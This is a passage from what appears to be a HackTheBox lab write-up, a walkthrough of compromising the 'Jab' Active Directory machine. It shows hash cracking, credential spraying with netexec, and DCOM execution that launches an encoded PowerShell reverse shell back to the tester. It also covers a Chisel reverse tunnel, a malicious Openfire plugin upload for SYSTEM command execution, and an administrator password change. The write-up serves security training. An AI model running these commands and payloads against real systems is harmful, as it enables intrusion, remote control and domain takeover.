    Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
    The following mode was auto-detected as the only one matching your input hash:
    
    18200 | Kerberos 5, etype 23, AS-REP | Network Protocol
    ...[snip]...
    $krb5asrep$23$jmontgomery@JAB.HTB:079194bb8982efb1f06ca790f8b267fa$747d3614459f850c0fef76d6ac9f101605e299b05a6125bb0b161e2671ab71797b61d79ff05ed8ae819842b925b21c411c38eae95096d2e024fefc26d2705b0407f6feaed713bb4d1b03673e0a3a1ff79d61260c3e83e456e85e340052185ad4baff574b3102ce41dbfb4b03c81b42fd62691b27c7bdeb47e3d21772434b29035e4ca3c791c775941c18b9343efa815fd3057393bfa8318e45654618919370ccf85f3c3b0508d63260fb96155be5e3941b03d187020417fa1e86a0cf47ebbf59116b1dc0f308afb0880ae00b2a432ad9614fd4b082a7e75729caae6cf2fb62b6508c:Midnight_121
    ...[snip]...
    Session..........: hashcat
    Status...........: Exhausted
    Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
    Hash.Target......: asrep.txt
    Time.Started.....: Mon Jun 24 11:33:01 2024 (1 sec)
    Time.Estimated...: Mon Jun 24 11:33:02 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........: 30120.9 kH/s (6.18ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
    Recovered........: 1/3 (33.33%) Digests (total), 1/3 (33.33%) Digests (new), 1/3 (33.33%) Salts
    Progress.........: 43033152/43033152 (100.00%)
    Rejected.........: 0/43033152 (0.00%)
    Restore.Point....: 14344384/14344384 (100.00%)
    Restore.Sub.#1...: Salt:2 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: $HEX[30383434313332373933] -> $HEX[042a0337c2a156616d6f732103]
    Hardware.Mon.#1..: Temp: 63c Fan:  0% Util: 60% Core:1965MHz Mem:7300MHz Bus:4
    

The password for jmontgomery comes back as “Midnight_121”.

### Enumerate Access

This password does work for SMB, but not WinRM:

    
    
    oxdf@hacky$ netexec smb jab.htb -u jmontgomery -p 'Midnight_121'
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.4      445    DC01             [+] jab.htb\jmontgomery:Midnight_121 
    oxdf@hacky$ netexec winrm jab.htb -u jmontgomery -p 'Midnight_121'
    WINRM       10.10.11.4      5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:jab.htb)
    WINRM       10.10.11.4      5985   DC01             [-] jab.htb\jmontgomery:Midnight_121
    

There are only the standard domain controller shares available:

    
    
    oxdf@hacky$ netexec smb jab.htb -u jmontgomery -p 'Midnight_121' --shares
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.4      445    DC01             [+] jab.htb\jmontgomery:Midnight_121 
    SMB         10.10.11.4      445    DC01             [*] Enumerated shares
    SMB         10.10.11.4      445    DC01             Share           Permissions     Remark
    SMB         10.10.11.4      445    DC01             -----           -----------     ------
    SMB         10.10.11.4      445    DC01             ADMIN$                          Remote Admin
    SMB         10.10.11.4      445    DC01             C$                              Default share
    SMB         10.10.11.4      445    DC01             IPC$            READ            Remote IPC
    SMB         10.10.11.4      445    DC01             NETLOGON        READ            Logon server share 
    SMB         10.10.11.4      445    DC01             SYSVOL          READ            Logon server share
    

There’s not much in the way of interesting files:

    
    
    oxdf@hacky$ netexec smb jab.htb -u jmontgomery -p 'Midnight_121' -M spider_plus
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.4      445    DC01             [+] jab.htb\jmontgomery:Midnight_121 
    SPIDER_P... 10.10.11.4      445    DC01             [*] Started module spidering_plus with the following options:
    SPIDER_P... 10.10.11.4      445    DC01             [*]  DOWNLOAD_FLAG: False
    SPIDER_P... 10.10.11.4      445    DC01             [*]     STATS_FLAG: True
    SPIDER_P... 10.10.11.4      445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
    SPIDER_P... 10.10.11.4      445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
    SPIDER_P... 10.10.11.4      445    DC01             [*]  MAX_FILE_SIZE: 50 KB
    SPIDER_P... 10.10.11.4      445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
    SMB         10.10.11.4      445    DC01             [*] Enumerated shares
    SMB         10.10.11.4      445    DC01             Share           Permissions     Remark
    SMB         10.10.11.4      445    DC01             -----           -----------     ------
    SMB         10.10.11.4      445    DC01             ADMIN$                          Remote Admin
    SMB         10.10.11.4      445    DC01             C$                              Default share
    SMB         10.10.11.4      445    DC01             IPC$            READ            Remote IPC
    SMB         10.10.11.4      445    DC01             NETLOGON        READ            Logon server share 
    SMB         10.10.11.4      445    DC01             SYSVOL          READ            Logon server share 
    SPIDER_P... 10.10.11.4      445    DC01             [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.10.11.4.json".
    SPIDER_P... 10.10.11.4      445    DC01             [*] SMB Shares:           5 (ADMIN$, C$, IPC$, NETLOGON, SYSVOL)
    SPIDER_P... 10.10.11.4      445    DC01             [*] SMB Readable Shares:  3 (IPC$, NETLOGON, SYSVOL)
    SPIDER_P... 10.10.11.4      445    DC01             [*] SMB Filtered Shares:  1
    SPIDER_P... 10.10.11.4      445    DC01             [*] Total folders found:  22
    SPIDER_P... 10.10.11.4      445    DC01             [*] Total files found:    5
    SPIDER_P... 10.10.11.4      445    DC01             [*] File size average:    1.5 KB
    SPIDER_P... 10.10.11.4      445    DC01             [*] File size min:        22 B
    SPIDER_P... 10.10.11.4      445    DC01             [*] File size max:        3.68 KB
    

The creds also work to connect to the chat as jmontgomery by adding another
account in Pidgin:

## Shell as svc_openfire

### Enumeration

In Jabber, there’s no obvious buddies or new users, but when I look at the
rooms list, there’s an additional option:



This room has a discussion about an ongoing pentest:

[_Click for full
size image_](../img/image-20240624113650296.png)

The svc_openfire account is Kerberoastable, and the commands in the chat
include dumping a hash and cracking it with `hashcat`, to include the
password:

### Validate Creds

The creds still work for the svc_openfire account over SMB, but not WinRM:

    
    
    oxdf@hacky$ netexec smb jab.htb -u svc_openfire -p '!@#$%^&*(1qazxsw'
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.4      445    DC01             [+] jab.htb\svc_openfire:!@#$%^&*(1qazxsw 
    oxdf@hacky$ netexec winrm jab.htb -u svc_openfire -p '!@#$%^&*(1qazxsw'
    WINRM       10.10.11.4      5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:jab.htb)
    WINRM       10.10.11.4      5985   DC01             [-] jab.htb\svc_openfire:!@#$%^&*(1qazxsw
    

### Bloodhound

#### Collect

I’ll use the [Python Bloodhound
collector](https://github.com/dirkjanm/BloodHound.py) to get data for
[BloodHound](https://github.com/BloodHoundAD/BloodHound):

    
    
    oxdf@hacky$ bloodhound-python -d jab.htb -c all -u svc_openfire -p '!@#$%^&*(1qazxsw' -ns 10.10.11.4 --zip
    INFO: Found AD domain: jab.htb
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: dc01.jab.htb
    WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 502 computers
    INFO: Connecting to LDAP server: dc01.jab.htb
    WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
    INFO: Found 2687 users
    INFO: Found 162 groups
    INFO: Found 2 gpos
    INFO: Found 21 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    ...[snip DNS errors]...
    INFO: Done in 00M 27S
    INFO: Compressing output into 20240624114504_bloodhound.zip
    

There’s a _ton_ of DNS errors where Bloodhound is trying to get IP addresses
for all the (fake) computers in the domain. These can be ignored here.

#### Analysis

I’ll load the Zip archive into BloodHound and start by marking the two users
I’ve compromised as owned. There’s nothing too interesting for jmontgomery.

svc_openfire doesn’t have any outbound object control, but it does have “First
Degree DCOM Privileges”:



Clicking it shows up as:

### Execution

#### Theory

Windows uses the [Component Object Model](https://learn.microsoft.com/en-
us/windows/win32/com/the-component-object-model?redirectedfrom=MSDN) (COM) as
a standard for having binary components that can interact with each other.
[Distributed Component Object Model](https://learn.microsoft.com/en-
us/openspecs/windows_protocols/ms-
dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0?redirectedfrom=MSDN) (DCOM) exposes
these interfaces over remote procedure calls (RPCs).

Matt Nelson (enigma0x3) published research on abusing DCOM, in 2017 with two
posts, [part 1](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-
mmc20-application-com-object/) and [part
2](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/). With
the right permissions, this allows executing commands remotely over DCOM.

[dcomexec.py](https://github.com/fortra/impacket/blob/master/examples/dcomexec.py)
is an Impacket example script that abuses this.

#### POC

`dcomexec.py` options show it takes the standard Impacket target format, with
some additional options:

    
    
    oxdf@hacky$ dcomexec.py -h
    Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra
    
    usage: dcomexec.py [-h] [-share SHARE] [-nooutput] [-ts] [-debug] [-codec CODEC] [-object [{ShellWindows,ShellBrowserWindow,MMC20}]] [-com-version MAJOR_VERSION:MINOR_VERSION] [-shell-type {cmd,powershell}]
                       [-silentcommand] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] [-A authfile] [-keytab KEYTAB]
                       target [command ...]
    
    Executes a semi-interactive shell using the ShellBrowserWindow DCOM object.
    
    positional arguments:
      target                [[domain/]username[:password]@]<targetName or address>
      command               command to execute at the target. If empty it will launch a semi-interactive shell
    
    options:
      -h, --help            show this help message and exit
      -share SHARE          share where the output will be grabbed from (default ADMIN$)
      -nooutput             whether or not to print the output (no SMB connection created)
      -ts                   Adds timestamp to every logging output
      -debug                Turn DEBUG output ON
      -codec CODEC          Sets encoding used (codec) from the target's output (default "utf-8"). If errors are detected, run chcp.com at the target, map the result with
                            https://docs.python.org/3/library/codecs.html#standard-encodings and then execute wmiexec.py again with -codec and the corresponding codec
      -object [{ShellWindows,ShellBrowserWindow,MMC20}]
                            DCOM object to be used to execute the shell command (default=ShellWindows)
      -com-version MAJOR_VERSION:MINOR_VERSION
                            DCOM version, format is MAJOR_VERSION:MINOR_VERSION e.g. 5.7
      -shell-type {cmd,powershell}
                            choose a command processor for the semi-interactive shell
      -silentcommand        does not execute cmd.exe to run given command (no output, cannot run dir/cd/etc.)
    
    authentication:
      -hashes LMHASH:NTHASH
                            NTLM hashes, format is LMHASH:NTHASH
      -no-pass              don't ask for password (useful for -k)
      -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                            command line
      -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
      -dc-ip ip address     IP Address of the domain controller. If omitted it use the domain part (FQDN) specified in the target parameter
      -A authfile           smbclient/mount.cifs-style authentication file. See smbclient man page's -A option.
      -keytab KEYTAB        Read keys for SPN from keytab file
    

`-silentcommand` is definitely wanted, as otherwise it will open a `cmd.exe`
window on the target.

I’ll start as simply as possible, to see if I can ping my host. I don’t know
if the output of the command will be returned, so `ping` allows me to see
success at `tcpdump`.

    
    
    oxdf@hacky$ dcomexec.py jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'ping 10.10.14.6' -silentcommand
    Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra
    
    [-] DCOM SessionError: code: 0x8000401a - CO_E_RUNAS_LOGON_FAILURE - The server process could not be started because the configured identity is incorrect. Check the user name and password.
    

This is a really tricky error, as it implies the username/password is bad,
where it’s not.

There are multiple DCOM objects that present execution opportunities. By
default, this script tries `ShellWindows`. I’ll try `MMC20`:

    
    
    oxdf@hacky$ dcomexec.py jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'ping 10.10.14.6' -silentcommand -object MMC20
    Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra
    

It works:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    13:18:49.226351 IP 10.10.11.4 > 10.10.14.6: ICMP echo request, id 1, seq 2584, length 40
    13:18:49.226385 IP 10.10.14.6 > 10.10.11.4: ICMP echo reply, id 1, seq 2584, length 40
    13:18:50.235810 IP 10.10.11.4 > 10.10.14.6: ICMP echo request, id 1, seq 2585, length 40
    13:18:50.235830 IP 10.10.14.6 > 10.10.11.4: ICMP echo reply, id 1, seq 2585, length 40
    13:18:51.238747 IP 10.10.11.4 > 10.10.14.6: ICMP echo request, id 1, seq 2586, length 40
    13:18:51.238774 IP 10.10.14.6 > 10.10.11.4: ICMP echo reply, id 1, seq 2586, length 40
    13:18:52.249042 IP 10.10.11.4 > 10.10.14.6: ICMP echo request, id 1, seq 2587, length 40
    13:18:52.249071 IP 10.10.14.6 > 10.10.11.4: ICMP echo reply, id 1, seq 2587, length 40
    

#### Shell

I’ll grab “PowerShell #3 (Base64)” from
[revshells.com](https://www.revshells.com/) and give that as the command to
run:

    
    
    oxdf@hacky$ dcomexec.py jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANgAiACwANAA0ADMAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA' -silentcommand -object MMC20
    Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra
    

At my listening `nc`, there’s a connection:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.4 53028
    
    PS C:\windows\system32> whoami
    jab\svc_openfire
    

And grab `user.txt`:

    
    
    PS C:\users\svc_openfire\desktop> cat user.txt
    14aaa9e1************************
    

## Shell as administrator

### Enumeration

#### File System

Despite all the users on the domain, there are no other users who have logged
into this box:

    
    
    PS C:\Users> ls
    
        Directory: C:\Users
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       11/21/2023  11:52 AM                Administrator
    d-r---       10/23/2023  12:12 PM                Public
    d-----        1/22/2024   1:36 PM                svc_openfire
    

The file system root is also relatively empty:

    
    
    PS C:\> ls
    
        Directory: C:\
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----         1/8/2024  10:58 AM                PerfLogs
    d-r---         2/1/2024   4:34 AM                Program Files
    d-----         1/8/2024   9:51 PM                Program Files (x86)
    d-r---        1/22/2024   1:36 PM                Users
    d-----        2/21/2024   7:01 AM                Windows
    -a----         1/8/2024  11:25 AM           1024 .rnd
    

I have no idea what `.rnd` is, but it doesn’t seem important.

#### Openfire

The XMPP server running on Jab is Openfire, which is installed to `C:\Program
Files\Openfire`:

    
    
    PS C:\Program Files\Openfire> ls
    
        Directory: C:\Program Files\Openfire
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----       10/26/2023   5:57 PM                .install4j
    d-----       10/26/2023   5:56 PM                bin
    d-----        6/23/2024  12:01 PM                conf
    d-----       10/26/2023   5:56 PM                documentation
    d-----        6/23/2024  12:02 PM                embedded-db
    d-----       10/26/2023   5:56 PM                lib
    d-----         1/8/2024  12:36 PM                logs
    d-----        6/24/2024   1:32 PM                plugins
    d-----       10/26/2023   5:56 PM                resources
    -a----        5/23/2023  11:11 AM         379271 changelog.html
    -a----        2/16/2022  10:55 AM          10874 LICENSE.html
    -a----        2/16/2022  10:55 AM           5403 README.html
    -a----        5/23/2023  11:12 AM         798720 uninstall.exe
    

The configuration file is `openfire.xml` in `conf`:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    <!--
        This file stores bootstrap properties needed by Openfire.
        Property names must be in the format: "prop.name.is.blah=value"
        That will be stored as:
            <prop>
                <name>
                    <is>
                        <blah>value</blah>
                    </is>
                </name>
            </prop>
    
        Most properties are stored in the Openfire database. A
        property viewer and editor is included in the admin console.
    -->
    <!-- root element, all properties must be under this element -->
    <jive>
      <adminConsole>
        <!-- Disable either port by setting the value to -1 -->
        <port>9090</port>
        <securePort>9091</securePort>
        <interface>127.0.0.1</interface>
      </adminConsole>
      <locale>en</locale>
      <!-- Network settings. By default, Openfire will bind to all network interfaces.
          Alternatively, you can specify a specific network interfaces that the server
          will listen on. For example, 127.0.0.1. This setting is generally only useful
           on multi-homed servers. -->
      <!--
        <network>
            <interface></interface>
        </network>
        -->
      <!--
            One time token to gain temporary access to the admin console.
        -->
      <!--
        <oneTimeAccessToken>secretToken</oneTimeAccessToken>
        -->
      <connectionProvider>
        <className>org.jivesoftware.database.EmbeddedConnectionProvider</className>
      </connectionProvider>
      <setup>true</setup>
      <fqdn>dc01.jab.htb</fqdn>
    </jive>
    

I was originally looking for a database connection, but an admin panel is
interesting. The two ports listed are listening on Jab, though only on
localhost:

    
    
    PS C:\Program Files\Openfire> netstat -ano | findstr LISTENING
      TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       912
      TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       912
      TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:5222           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5223           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5262           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5263           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5269           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5270           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5275           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5276           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:7070           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:7443           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:7777           0.0.0.0:0              LISTENING       3312
      TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2788
      TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
      TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       484
      TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1172
      TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1524
      TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       1924
      TCP    0.0.0.0:49688          0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:49689          0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:49694          0.0.0.0:0              LISTENING       648
      TCP    0.0.0.0:49705          0.0.0.0:0              LISTENING       624
      TCP    0.0.0.0:49715          0.0.0.0:0              LISTENING       2924
      TCP    0.0.0.0:49786          0.0.0.0:0              LISTENING       2876
      TCP    10.10.11.4:53          0.0.0.0:0              LISTENING       2924
      TCP    10.10.11.4:139         0.0.0.0:0              LISTENING       4
      TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2924
      TCP    127.0.0.1:9090         0.0.0.0:0              LISTENING       3312
      TCP    127.0.0.1:9091         0.0.0.0:0              LISTENING       3312
      TCP    [::]:88                [::]:0                 LISTENING       648
      TCP    [::]:135               [::]:0                 LISTENING       912
      TCP    [::]:445               [::]:0                 LISTENING       4
      TCP    [::]:464               [::]:0                 LISTENING       648
      TCP    [::]:593               [::]:0                 LISTENING       912
      TCP    [::]:5222              [::]:0                 LISTENING       3312
      TCP    [::]:5223              [::]:0                 LISTENING       3312
      TCP    [::]:5262              [::]:0                 LISTENING       3312
      TCP    [::]:5263              [::]:0                 LISTENING       3312
      TCP    [::]:5269              [::]:0                 LISTENING       3312
      TCP    [::]:5270              [::]:0                 LISTENING       3312
      TCP    [::]:5275              [::]:0                 LISTENING       3312
      TCP    [::]:5276              [::]:0                 LISTENING       3312
      TCP    [::]:5985              [::]:0                 LISTENING       4
      TCP    [::]:7070              [::]:0                 LISTENING       3312
      TCP    [::]:7443              [::]:0                 LISTENING       3312
      TCP    [::]:7777              [::]:0                 LISTENING       3312
      TCP    [::]:9389              [::]:0                 LISTENING       2788
      TCP    [::]:47001             [::]:0                 LISTENING       4
      TCP    [::]:49664             [::]:0                 LISTENING       484
      TCP    [::]:49665             [::]:0                 LISTENING       1172
      TCP    [::]:49666             [::]:0                 LISTENING       1524
      TCP    [::]:49667             [::]:0                 LISTENING       648
      TCP    [::]:49674             [::]:0                 LISTENING       1924
      TCP    [::]:49688             [::]:0                 LISTENING       648
      TCP    [::]:49689             [::]:0                 LISTENING       648
      TCP    [::]:49694             [::]:0                 LISTENING       648
      TCP    [::]:49705             [::]:0                 LISTENING       624
      TCP    [::]:49715             [::]:0                 LISTENING       2924
      TCP    [::]:49786             [::]:0                 LISTENING       2876
      TCP    [::1]:53               [::]:0                 LISTENING       2924
    

The root page redirects to `index.jsp`:

    
    
    PS C:\Program Files\Openfire> curl 127.0.0.1:9090 -usebasicparsing
    
    
    StatusCode        : 200
    StatusDescription : OK
    Content           : <html>
                        <head><title></title>
                        <meta http-equiv="refresh" content="0;URL=index.jsp">
                        </head>
                        <body>
                        </body>
                        </html>
                        
                        
    RawContent        : HTTP/1.1 200 OK
                        Accept-Ranges: bytes
                        Content-Length: 115
                        Content-Type: text/html
                        Date: Mon, 24 Jun 2024 17:40:20 GMT
                        Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
                        
                        <html>
                        <head><title></title>
                        <...
    Forms             : 
    Headers           : {[Accept-Ranges, bytes], [Content-Length, 115], [Content-Type, text/html], [Date, Mon, 24 Jun 2024 
                        17:40:20 GMT]...}
    Images            : {}
    InputFields       : {}
    Links             : {}
    ParsedHtml        : 
    RawContentLength  : 115
    

#### Tunnel

I’ll upload a copy of [Chisel](https://github.com/jpillora/chisel) to Jab from
my Python webserver:

    
    
    PS C:\programdata> wget 10.10.14.6/chisel_1.9.1_windows_amd64 -outfile c.exe
    

I’ll start the server locally, and connect the client:

    
    
    PS C:\programdata> .\c.exe client 10.10.14.6:8000 R:9090:localhost:9090
    

At the server:

    
    
    oxdf@hacky$ /opt/chisel/chisel_1.9.1_linux_amd64 server --port 8000 --reverse
    2024/06/24 14:10:35 server: Reverse tunnelling enabled
    2024/06/24 14:10:35 server: Fingerprint ydt1TWPOPJhR+VcWwgnYjxPRMyFeT5veqBCARd/Yjvc=
    2024/06/24 14:10:35 server: Listening on http://0.0.0.0:8000
    2024/06/24 14:10:57 server: session#1: tun: proxy#R:9090=>localhost:9090: Listening
    

Visiting `http://localhost:9090`in my browser loads the admin panel:



Checking for password reuse, the svc_openfire account with the same password
works to get access to the admin panel:


 "Click to expand for full
content")

### RCE Plugin

#### Background

In researching how to get execution from this admin panel, I’ll come across
CVE-2023-32315, a path traversal vulnerability in Openfire that leads to RCE.
[This blog post](https://www.vicarius.io/vsociety/posts/cve-2023-32315-path-
traversal-in-openfire-leads-to-rce) shows how to exploit the vulnerability to
get admin panel access, and then:

> After getting Authenticated now you can get a reverse shell(RCE) by
> uploading a Vulnerable Plugin like Openfire-management-tool-
>
> the plugin ca n be found
> [_here_](https://github.com/miko550/CVE-2023-32315).

I already have admin access, so I don’t need to exploit the CVE. Still, I can
make use of the malicious plugin from [this CVE-2023-32315 exploit
repo](https://github.com/miko550/CVE-2023-32315) to save myself writing a
bunch of Java.

#### Upload

I’ll download a copy of `openfire-management-tool-plugin.jar` to my VM, and
then visit the “Plugins” tab in the admin panel menu:

I’ll browse to the malicious plugin and upload it:

#### RCE

Under “Server” –> “Server Settings” there’s now a “Management Tool” option:

Clicking on it asks for a password:

I’ll enter “123” as instructed on GitHub. The plugin has a dropdown of
options:



The “system command” option has a field to provide a command. On giving
`whoami`, it shows the server is running as System:

I can read the flag:

#### Administrator Shell

There are a ton of ways to get a shell from here. Given that I’m not concerned
about OPSEC, I’ll change the administrator account’s password:

It’s important that the new password meets the complexity requirements of the
domain, or this silently fails.

It works:

    
    
    oxdf@hacky$ netexec smb jab.htb -u administrator -p '0xdf0xdf!!!'
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.4      445    DC01             [+] jab.htb\administrator:0xdf0xdf!!! (Pwn3d!)
    

Now I can get a shell over Evil-WinRM:

    
    
    oxdf@hacky$ evil-winrm -i jab.htb -u administrator -p '0xdf0xdf!!!'
    
    Evil-WinRM shell v3.4
    
    Info: Establishing connection to remote endpoint
    
    *Evil-WinRM* PS C:\Users\Administrator\Documents> 
    

And grab the flag:

    
    
    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
    f7d75fb4************************
    

